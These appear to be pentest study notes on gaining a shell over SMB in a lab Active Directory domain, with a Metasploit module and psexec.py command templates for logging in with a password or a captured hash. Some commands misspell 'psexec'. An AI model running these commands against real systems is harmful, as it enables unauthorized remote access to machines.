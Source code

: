 ```yaml
---
description: Using the hashes found in previous attacks
---
```


# Gaining Shell Access

Metasploit(Can use password or we can also use the hash itself)

```
windows/smb/psxec
```

Manually

```
psexec.py marvel.local/fcastle:'<password>'@<ip>
```

`psexec.py <domain name>.local/<user>`

For hash

```
psxec.py <user>@<ip> -hashes <the hash>
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption><p>Which part of hash to copy for manual/metasploit intial attack</p></figcaption></figure>

